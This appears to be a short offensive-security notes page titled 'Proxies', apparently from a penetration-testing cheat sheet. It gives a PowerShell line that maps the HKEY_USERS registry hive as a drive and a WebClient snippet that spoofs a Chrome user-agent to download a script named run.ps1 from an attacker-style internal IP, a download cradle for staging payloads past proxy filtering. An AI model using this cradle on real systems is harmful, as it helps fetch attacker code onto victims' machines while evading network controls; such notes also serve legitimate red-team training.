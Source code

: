 # Proxies
## Remap reg hive
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

## Change UA of webclient
```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```
